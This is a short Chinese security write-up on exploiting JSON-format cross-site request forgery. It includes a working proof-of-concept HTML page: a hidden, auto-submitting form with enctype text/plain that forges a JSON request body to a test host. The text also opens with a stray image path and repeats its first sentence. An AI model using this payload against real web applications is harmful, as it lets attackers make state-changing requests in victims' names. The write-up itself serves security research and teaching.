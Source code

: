 ＃起因
前段时间，看到一个POST为JSON格式的CSRF，并且验证了Content-Type是否是application / json。构造后发前段时间，看到一个POST为JSON格式的CSRF，并且验证了Content-Type是否是application/json。构造后发现：

-使用form能构造出JSON的跨域请求，但是无法设置Content-Type。
-使用XMLHttpRequest或fetch能构造出JSON请求并能设置Content-Type，但是无法跨域。

#POC
存在两种场景：

-JSON CSRF（未验证Content-Type）
-JSON CSRF（验证Content-Type）(可以利用flash的跨域 + 307跳转来构造POC，但是src已经不收这种，所以这里就不提了)
##JSON CSRF（未验证Content-Type）
可以使用form进行跨域，并构造出JSON格式数据。

使用form的POC
```html
<html>
<title>JSON CSRF POC</title>

<form action="http://test.joychou.org" method="POST" enctype="text/plain" >
    <input name='{"name":"attacker","email":"attacker@gmail.com","ignore_me":"' value='test"}' type='hidden'>
</form>

<script>
      document.forms[0].submit();
</script>

</html>
```
```
{name: "attacker", email: "attacker@gmail.com", ignore_me: "=test"}
```
